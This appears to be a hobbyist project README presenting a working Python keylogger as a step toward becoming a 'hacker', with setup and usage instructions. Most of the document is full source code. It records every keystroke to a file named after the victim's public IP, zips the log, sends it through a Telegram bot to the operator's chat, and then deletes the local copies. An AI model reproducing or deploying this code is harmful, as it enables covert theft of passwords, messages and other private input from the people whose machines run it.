



# Introducetion
This is a keylogger using python, small example for the journey to become a hackerlor.

# Dependencies
* **pynput**
```bash
sudo apt install pynput
```
# Configuration
* **TOKEN**: Your bot token obtained from BotFather.
* **CHAT_ID**: Your chat ID where the bot will send messages.

## Explanation
- **Configuration Section**: Clearly state that users need to set up some configuration variables before running the program.
- **Description of TOKEN and CHAT_ID**: Provide a clear explanation of the purpose and origin of each variable to help users better understand how the program works.
- **Security Note:**: Remind users to keep these values secure to prevent misuse.

# Usage
```bash
python3 keylogger.py
```

# Review
## Typing

## Get

## View


# Code
```python
from pynput.keyboard import Listener
from telegram import Bot
import asyncio
import zipfile
import os
import http.client
import time

TOKEN = 'your_token'
CHAT_ID = 'your_chat_id'

bot = Bot(token=TOKEN)

def get_public_ip():
    try:
        conn = http.client.HTTPSConnection("api.ipify.org")
        conn.request("GET", "/")
        response = conn.getresponse()
        return response.read().decode()
    except Exception as e:
        print(f"Error: {e}")
        return None

current_time = time.strftime("%Y-%m-%d", time.localtime())

public_ip = get_public_ip()
if not public_ip:
    raise SystemExit("Unable to get public IP address")

log_file_name = f"{current_time} - {public_ip}.txt"
zip_file_name = f"{current_time} - {public_ip}.zip"

def zip_file(output_filename, filename_to_zip):
    with zipfile.ZipFile(output_filename, 'w') as zip:
        for file in filename_to_zip:
            zip.write(file, arcname=file.split('/')[-1])

async def send_file():
    with open(log_file_name, "rb") as file:
        await bot.send_document(chat_id=CHAT_ID, document=file)
    
    with open(zip_file_name, "rb") as file:
        await bot.send_document(chat_id=CHAT_ID, document=file)

def on_press(key):
    key = str(key).replace("'", "")
    
    with open(log_file_name, "a", encoding="utf-8") as f:
        if key == 'Key.esc':
            f.write("[DONE]")
            f.flush()
            zip_file(zip_file_name, [log_file_name])

            asyncio.run(send_file())

            os.remove(log_file_name)
            os.remove(zip_file_name)
            return False
        elif key == 'Key.space':
            f.write(" ")
        elif key == 'Key.enter':
            f.write("\n")
        elif key == 'Key.backspace':
            f.write("\b")
        elif key.__contains__("Key"):
            key = str(key).replace("Key.", "")
            f.write(f"[{key}]")
        else:
            f.write(key)

with Listener(on_press=on_press) as listener:
    listener.join()
```